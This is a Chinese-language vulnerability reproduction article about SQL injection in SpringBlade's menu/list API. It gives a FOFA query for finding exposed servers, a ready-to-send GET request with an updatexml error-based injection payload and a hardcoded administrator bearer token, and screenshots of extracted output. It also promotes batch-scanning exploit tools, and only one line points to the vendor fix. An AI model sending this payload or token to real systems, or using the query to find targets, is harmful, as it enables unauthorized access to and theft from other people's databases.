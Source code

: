 #  SpringBlade api/blade-system/menu/list接口存在SQL注入漏洞 附POC   
2025-5-21更新  南风漏洞复现文库   2025-05-21 15:10  
  
   
  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. SpringBlade 简介  
  
微信公众号搜索：南风漏洞复现文库  
该文章 南风漏洞复现文库 公众号首发  
  
SpringBlade 是一个由商业级项目升级优化而来的微服务架构 采用Spring Boot 2.5 、Spring Cloud 2020 等核心技术构建，完全遵循阿里巴巴编码规范。  
## 2.漏洞描述  
  
SpringBlade 是一个由商业级项目升级优化而来的微服务架构 采用Spring Boot 2.7 、Spring Cloud 2021 等核心技术构建 ，完全遵循阿里巴巴编码规范。提供基于React和Vue的两个前端框架用于快速搭建企业级的SaaS多租户微服务平台。api/blade-system/menu/list接口存在SQL注入漏洞  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
SpringBlade  
![SpringBlade api/blade-system/menu/list接口存在SQL注入漏洞](https://mmbiz.qpic.cn/sz_mmbiz_png/HsJDm7fvc3ZXzKr8ZnfDq0Dib5jUwgnicDo5ib8cyJ1xt7x60Sbs9w17cLusViaibPkvUnFgBk07IDEADia3xFlg8htw/640?wx_fmt=png&from=appmsg "null")  
  
SpringBlade api/blade-system/menu/list接口存在SQL注入漏洞  
## 4.fofa查询语句  
  
body="https://bladex.vip"  
## 5.漏洞复现  
  
漏洞链接：https://xx.xx.xx.xx/api/blade-system/menu/list?updatexml(1,concat(0x7e,md5(1),0x7e),1)=1  
  
漏洞数据包：  
```
GET /api/blade-system/menu/list?updatexml(1,concat(0x7e,md5(1),0x7e),1)=1 HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
Blade-Auth: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0ZW5hbnRfaWQiOiIwMDAwMDAiLCJ1c2VyX25hbWUiOiJhZG1pbiIsInJlYWxfbmFtZSI6IueuoeeQhuWRmCIsImF1dGhvcml0aWVzIjpbImFkbWluaXN0cmF0b3IiXSwiY2xpZW50X2lkIjoic2FiZXIiLCJyb2xlX25hbWUiOiJhZG1pbmlzdHJhdG9yIiwibGljZW5zZSI6InBvd2VyZWQgYnkgYmxhZGV4IiwicG9zdF9pZCI6IjExMjM1OTg4MTc3Mzg2NzUyMDEiLCJ1c2VyX2lkIjoiMTEyMzU5ODgyMTczODY3NTIwMSIsInJvbGVfaWQiOiIxMTIzNTk4ODE2NzM4Njc1MjAxIiwic2NvcGUiOlsiYWxsIl0sIm5pY2tfbmFtZSI6IueuoeeQhuWRmCIsIm9hdXRoX2lkIjoiIiwiZGV0YWlsIjp7InR5cGUiOiJ3ZWIifSwiYWNjb3VudCI6ImFkbWluIn0.RtS67Tmbo7yFKHyMz_bMQW7dfgNjxZW47KtnFcwItxQ  
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZXzKr8ZnfDq0Dib5jUwgnicD1lNJjVk4xmXMA7fS7k4UAJ4vbyokictdhib70ewSx8hU8jJ53xic2iacVA/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
执行user()函数  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZXzKr8ZnfDq0Dib5jUwgnicDGsD9OXwv6P6jLkkZE0ic8uCOWia431lCk31218du5ibNIUweMZ0btgmVg/640?wx_fmt=jpeg&from=appmsg "null")  
  
## 6.POC&EXP  
  
关注公众号 南风漏洞复现文库 并回复 漏洞复现10 即可获得该POC工具下载地址：  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZXzKr8ZnfDq0Dib5jUwgnicDvuNrGDcttfIuLESqZuprQLia68BVUGJzlVWpEo5VYPc9BadYtfqgy5A/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全  
1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。  
2: 免登录，免费fofa查询。  
3: 更新其他实用网络安全工具项目。  
4: 免费指纹识别，持续更新指纹库。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZXzKr8ZnfDq0Dib5jUwgnicD8xZVwnE0l81NjFkjNgB1a3icpUDqRZ5RZHkNGkjdUrWms3jticYRIMjg/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZXzKr8ZnfDq0Dib5jUwgnicDBJLe5AkhiaDNMspICGMQlcdVjm5KEKVvgpS2oFIn6tAF7icFqW9mNXgw/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZXzKr8ZnfDq0Dib5jUwgnicDT6HamRyzOZiack5GO1VgVon15hREfe0IeRoicqliaIibN8CQI1TjicztSAQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZXzKr8ZnfDq0Dib5jUwgnicD4iblS21HEYD5DrRQicD5Yty6hqxaKCyzN9WUGb6yPhrmkUTXHgKfaIaQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZXzKr8ZnfDq0Dib5jUwgnicDtn5ZANIWfzWrgUjK1jUFFnJOC1ruO9SjbklP7593iaF5hAicYF7J7GmQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
## 7.整改意见  
  
⼚商已发布了漏洞修复程序 请及时关注更新：https://github.com/chillzhuang/blade-tool  
## 8.往期回顾  
  
  
   
  
